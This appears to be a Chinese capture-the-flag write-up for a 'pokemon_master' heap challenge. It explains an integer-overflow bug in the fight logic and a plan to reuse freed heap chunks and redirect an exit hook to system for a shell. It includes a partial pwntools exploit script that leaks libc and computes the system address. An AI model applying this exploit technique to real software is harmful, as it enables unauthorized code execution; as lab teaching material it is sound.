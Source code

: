 ```plain
ptr = malloc(0x20uLL);
*((_DWORD *)ptr + 4) = 9999;
*((_DWORD *)ptr + 6) = 15;
*((_DWORD *)ptr + 7) = 9999;
*((_DWORD *)ptr + 5) = 9999;
Pokemon_name(&ptr, "QWQ");
```

简单观察神兽只有这项属性 *((_DWORD *)ptr + 6) = 15最低，*ptr是我们堆刚开始的地方

这里Dword是4字节，所以也就是ptr+6*4=ptr+24

我们选精灵的时候，要选这个属性大于QWQ的，才有可能取得胜利。

也就是我们的Pikapi！

![](/images/db7d02e1944c898b63ea2b2b59ae3e70.png)

在FIght函数逻辑中，有以下片段，这里其实都是通过计算精灵的属性值，来实现蘸豆。我们不妨设想一下，它们中很有可能就包含精灵的攻击属性和防御属性。虽有大部分都是int类型，但是实际上是无符号类型在运算

> `<font style="color:rgb(77, 77, 77);">*(_QWORD *)</font>` 允许你在不知道原始数据类型的情况下，以特定的方式（这里是64位无符号整数）解释和访问内存中的数据。
>

![](/images/4348157c9f634fb8dcb3333581392cf0.png)

所以我们选取皮卡丘，在打败两次小怪之后，买防御剂，让自己的攻击溢出到负数，但是比较用的是Qword所以实际上还是unsigned int，此时速度比QWQ快，能够一击秒杀QWQ。这样会free掉特殊堆块，利用case666，然后申请两次申请回特殊堆块（因为第一次是QWQ的堆块。），之后改写ex1t的hook为system即可getshell。

free掉的两个堆块进入bin

![](/images/81ffec354bc26baebd294d557b635307.png)

### 0X3 exp
```plain
from pwn import *
context(log_level="debug")
p=process("./pokemon_master")
#p=remote("43.248.97.213",30058)
def cmd(i):
    p.sendlineafter(">>>",str(i))



#choose pikapi
cmd(1)

#recv libcaddr
p.recvuntil("gift:0x")
puts_addr=int(p.recv(12)[-12:].rjust(16,b'0'),16)
print("puts",hex(puts_addr))
libcbase=puts_addr-0x080e50
system=libcbase+0x050d70

#attack TAT
cmd(2)
cmd(2)
cmd(1)

#buy defense agents
cmd(1)
cmd(2)
cmd(1)
cmd(2)
cmd(3)
```